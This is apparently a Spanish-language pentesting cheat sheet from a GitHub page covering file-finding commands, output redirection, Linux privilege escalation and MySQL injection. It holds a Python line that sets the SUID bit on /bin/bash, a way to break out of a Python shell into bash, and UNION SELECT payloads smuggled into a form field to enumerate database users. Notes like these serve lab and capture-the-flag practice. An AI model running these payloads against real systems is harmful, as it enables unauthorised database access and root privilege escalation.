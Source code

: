 ```
find . -type f
```

Buscar arhivos solo en el la carpeta ( primer nivel) que empiecen por un punto

```
find /var/tmp -maxdepth 1 -type f -name ".*"
```

Archivos que pertenecen a un grupo

```
find / -group video 2>/dev/null
```

## SUID

```python

import os

os.system("chmod u+s /bin/bash")

```

Si en algun momento caes en una shell que sea python como la maquina Hawk usa

```
import os

os.system("whoami")
os.system("bash")

```

## Redireccionar stdout stderror

Aqui tenemos como redireccionar tanto el stdout como el stderr

```
burpsuite &>/dev/null
```

Ahora para redireccionar el stderr 

```
2>&1
```

## SQLI mysql

Para no depender de SQLMAP voy a utilizar la tabla "information_schema" esta tabla tiene informacion de usuarios privilegios etc.

Para ***enumerar usuario*** de la base de datos ( en ese momento)

```
username=masa&country=Albania' union select 1;-- -
username=masa&country=Albania' union select user();-- -
```
